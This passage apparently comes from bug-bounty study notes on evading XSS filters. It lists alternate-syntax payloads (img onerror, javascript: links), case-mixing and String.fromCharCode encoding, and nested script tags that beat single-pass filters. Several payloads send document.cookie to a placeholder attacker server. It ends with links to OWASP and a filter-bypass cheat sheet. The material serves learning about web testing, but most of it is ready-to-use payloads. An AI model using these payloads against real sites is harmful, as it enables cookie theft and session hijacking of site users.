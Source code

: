 - Try Alternate syntax to perform xss
      - **<img src="/><script>alert('XSS by Vickie');</script>"/>** instead use the below
      - **<img src="123" onerror="alert('XSS by Vickie');"/>**
      - **<a href="javascript:alert('XSS by Vickie')>Click me!</a>"**


- Capitalizing and Encoding
      **◇ <scrIPT>location='****<http://attacker_server_ip/c='+document.cookie;>****</scrIPT>**
      **◇ <scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114,  118,101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>**

- Filter Logi Errors 
      - For example some application remove the script tag only once .you can add another script tags to bypass that application error
      **◇ <scrip<script>t>location='****<http://attacker_server_ip/c='+document.cookie;>** **</scrip</script>t>**



**RESOURCE :**

**Filter Bypass Payloads :** 

<https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet>

**Learn more from the articles:**

<https://owasp.org/www-community/xss-filter-evasion-cheatsheet>
